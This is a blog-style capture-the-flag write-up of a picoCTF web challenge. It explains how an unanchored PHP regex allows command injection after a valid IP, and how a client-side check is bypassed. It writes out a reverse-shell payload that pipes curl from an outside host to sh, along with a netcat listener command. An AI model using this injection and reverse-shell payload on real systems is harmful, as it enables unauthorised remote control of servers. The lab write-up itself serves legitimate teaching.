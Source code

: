 ## fancy-alive-monitoring - Points: 400
>One of my school mate developed an alive monitoring tool. Can you get a flag from http://2018shell.picoctf.com:8587?

Note.
>The CTF server somehow blocked the outbound connection to non-standard ports. So on our own server, we need to listen on port 80, `nc -lvp 80`.

The main purpose of this blog post is to demonstrate how to get a webshell from a web server.

A few facts about Webshell,

- Webshell, as its name indicates, is to obtain a shell by means of a website.

  This diffs from how shell is usually accessed, which is either remotely via SSH, or log in directly in a server's console.

- A shell can be either a Linux shell, like Bash/Zsh, etc., or a command prompt from Windows.


Of course, above is my understanding of what a Webshell is, and what I believe the term "Webshell' should represent, not authoritative, but should be close.

A Webshell can be utilized to serve different purposes. It can be used to gain complete control of a web server; to search for sensetive information on the server; or to be used as a outpost to gather further information that can help to infiltrate other parts of the infrastructure that share the same network as the web server, etc. etc.

Ok, let us back to our main business.

First of all, the server code is published on the challenge's website.

A few points to note,

- The `check()` function in the embedded javascript is doing a validation check against the IP address user inputted.

  Some interesting methods I read from other writeups to circumvent it,

  - we can send a HTTP POST request directly to the web server, thus bypassing the javascript validation.
  - or we can simiply replace the `check()` function in the `Console` inside the developer tool of a browser, with the following,

  ```javascript
  function check(){
    document.getElementById("monitor").submit();
  }
  ```

  That is, when the `Go!` button is clicked, the `check()` function will be calling `.submit()` right away to submit the form, without doing any validation against the input.

- After the data is posted to the server, there is a second check being performed.
`preg_match('/^(([1-9]?[0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5]).){3}([1-9]?[0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5])/',$ip)`
  This check looks more promising, it does a decent job validating the IP address, which doesn't seem to expose any holes for exploitation.
  However, if we look more colsely, the regex doesn't end with a anchor `$`. That means as long as the data begins with a valid IP address, the data will be considered valid. This is where makes it vulnerable.
  
Since the symbol `;` can be used in PHP to chain the commands, if the payload of the POST request is `1.1.1.1 ; command`, then we can actually trick PHP to execute the command on the web sever!

Here, we will use the command to get a reverse shell from the web server, so the complete payload looks like,
`1.1.1.1 ; curl https://shell.now.sh/52.18.79.59:5580 | sh`

`https://shell.now.sh` is a HTTP endpoint that accept an `IP:PORT` as a path parameter, that the web server will be connecting to.

In this demo, the machine to which the IP is attached is controlled by me, and the goal here is to instruct the web server to proactively connect to the `IP:PORT`, and present a shell on my machine, as if I am just SSH'ed into it.

To achieve that, we just do,

1. On my own machine, run `nc -lvp 80` to instruct it to listen on port 80.
1. Fire up `Console` in the developer tool, change the `check()` function to what just shown above.
1. Type in `1.1.1.1 ; curl https://shell.now.sh/52.18.79.59:5580 | sh` in the text box of the challenge website.
1. Back to `Console`, key in `check();` and press Enter.


